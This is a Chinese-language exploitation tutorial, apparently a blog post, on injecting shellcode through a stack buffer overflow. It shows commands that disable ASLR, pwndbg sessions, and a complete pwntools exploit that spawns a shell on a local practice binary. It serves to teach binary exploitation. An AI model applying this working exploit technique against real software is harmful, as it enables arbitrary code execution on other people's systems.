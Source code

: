 ```yaml
---
title: 'shellcode'
date: '2023-08-08'
lastmod: '2023-08-20'
tags: ['PWN', 'Stack']
draft: false
summary: '运行你自己的指令'
authors: ['default']
---
```


在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回地址（返回指针）以劫持代码，并执行我们自己的指令。

<Warning>
  我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。pwntools 很安全，并且几乎拥有你需要的所有 shellcode。
</Warning>

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

LINK

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/blog/nops) 。这种随机化可能会使我们的 shellcode 变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

<Note>
  类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很浪费时间的事情。
</Note>

<Warning>
  再次强调，如果你不知道指令的作用，则永远不要运行该指令。
</Warning>

## 0x02 确定缓冲区位置

使用 `pwndbg` 调试 `vuln`，并找出缓冲区在内存中的起始位置；这就是我们想要将返回地址指向的位置。

```
$ pwndbg vuln
$ disass unsafe
[...]
0x0804918a <+24>:	lea    eax,[ebx-0x1ff8]
[...]
0x0804919c <+42>:	lea    eax,[ebp-0x134]
[...]
0x080491ac <+58>:	mov    ebx,DWORD PTR [ebp-0x4]
[...]
```

可以根据大小判断哪个是 **局部变量**。根据缓冲区大小是 300，可以判断出 `ebp-0x134` 很可能是缓冲区。让我们在 `gets()` 之后设置一个断点并找到确切的返回地址。

```
$ b *0x080491a8
$ r
Overflow me
<<IM HERE>>  <== This was my input
$ x/20s $esp
[...]
0xffffd664:	"<<IM HERE>>"
[...]
```

它似乎位于 `0xffffd664` ；如果我们多次运行二进制文件，它应该保持在原来的位置（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding。我们将使用 De Bruijn 序列，如上一篇 [文章](https://www.cubeyond.net/blog/de-bruijn-sequences) 中所述。

```
$ pwndbg vuln
$ cyclic 500
<COPY THIS>
$ r
Overflow me
<<PASTE HERE>>

Program received signal SIGSEGV, Segmentation fault.
0x64616164 in ?? ()
[...]
$ cyclic -l 0x64616164
Finding cyclic pattern of 4 bytes: b'daad' (hex: 0x64616164)
Found at offset 312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 Exploit

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供 shellcode。

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.binary = ELF('./vuln')

p = process()
```

<Note>
  我们可以只使用 `process()`，因为一旦设置了 `context.binary` 就默认假定使用该进程。
</Note>

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode。

```python
payload = asm(shellcraft.sh())      # 构建 Shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664)          # 返回地址
```

现在让我们将其发送出去并使用 `p.interactive()`，它使我们能够与 shell 通信。

```python
p.sendline(payload)

p.interactive()
```

<Warning>
  如果你遇到 `EOFError`，请打印出 shellcode 并尝试在内存中查找它，栈地址可能是错误的。

  你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的 hook 调试方法来解决这个问题。
</Warning>

```
$ python exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 39321
[*] Switching to interactive mode
Overflow me
$ whoami
cub3y0nd
```

## 0x05 最终 Exploit

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())
payload = payload.ljust(312, b'A')
payload += p32(0xffffd664)

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell

